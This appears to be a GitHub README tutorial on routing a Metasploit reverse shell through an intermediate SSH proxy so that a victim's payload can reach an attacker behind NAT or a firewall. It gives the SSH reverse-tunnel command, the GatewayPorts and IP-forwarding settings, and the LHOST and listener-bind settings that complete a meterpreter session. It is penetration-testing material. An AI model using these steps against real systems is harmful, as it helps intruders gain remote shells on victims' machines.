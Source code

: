 # Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or is connected to the Tor network for example.

![Image](images/1.png)

The payload used for the reverse shell can be anything desired, i.e. reverse_tcp, reverse_http, etc.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using SSH to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) establishes an SSH connection to the proxy (10.0.0.1) and can reach the victim host (172.16.0.1) -

![Image](images/2.png)

In preparation, a reverse SSH tunnel is established from the attacking host to the proxy by invoking the ssh client on the attacking host (192.168.0.1)
```bash
ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

The SSH client on the attacker will bind to 127.0.0.1:4444 on the attacking machine (10.0.0.1). The remote SSH server will also listen on port 4444.

![Image](images/3.png)

By default SSHD will bind to the loopback interface only, but we want to allow external connectivity to this port so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. Verify 127.0.0.1 is not present -

``` bash

$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     

```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively proxy to the attacker over the reverse SSH tunnel previously established -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

On success, a meterpreter session will be established between the attacker and the victim hosts -

![Image](images/6.png)

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute -  

![Image](images/7.png)
